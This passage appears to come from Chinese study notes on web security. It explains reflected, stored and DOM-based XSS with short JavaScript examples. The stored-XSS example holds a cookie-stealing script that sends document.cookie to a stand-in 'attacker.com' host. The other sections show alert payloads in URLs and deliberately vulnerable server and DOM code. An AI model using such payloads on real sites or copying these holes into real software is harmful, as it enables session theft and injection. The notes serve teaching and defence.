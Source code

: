 ### 2.3. XSS 的三种类型

#### 2.3.1. 反射型 XSS（非持久型）

- 反射型 XSS 是最简单的 XSS 攻击。
- 攻击者将恶意代码拼接在 `URL` 中，`服务器`接收到请求后，将**恶意代码"反射"回浏览器执行**。
	- 总结：==前端提交 → 后端处理 → 再反射回前端执行==

```javascript hl:1,4
// 示例 URL
http://example.com/search?q=<script>alert('XSS')</script>

// 易受攻击的服务器代码
app.get('/search', (req, res) => {
    res.send(`搜索结果：${req.query.q}`); // 直接输出用户输入
});
```

#### 2.3.2. 存储型 XSS（持久型）

- 存储型 XSS 是最危险的 XSS 攻击。
- 攻击者将恶意代码存储在目标服务器上（如数据库中），当**其他用户**浏览包含此恶意代码的页面时，就会执行攻击代码。
	- 影响范围大，因为**不止影响用户自己**

```javascript
// 典型场景：评论系统
// 攻击者提交的评论
const maliciousComment = `
    <script>
        // 窃取 cookie
        new Image().src = 'http://attacker.com/steal?cookie=' + document.cookie;
    </script>
`;

// 易受攻击的服务器代码
app.post('/comment', (req, res) => {
    db.comments.save(req.body.comment); // 直接存储用户输入
});
```

#### 2.3.3. DOM 型 XSS

- DOM 型 XSS 是一种特殊的 XSS
- 它的特点是攻击代码**不需要服务器参与**，而是通过修改页面 DOM 节点来完成攻击。
	- **前端自己消费自己**

```javascript
// 易受攻击的客户端代码
const hash = location.hash.substring(1);
document.getElementById('output').innerHTML = decodeURIComponent(hash);

// 攻击 URL
http://example.com#<img src="x" onerror="alert('XSS')">
```
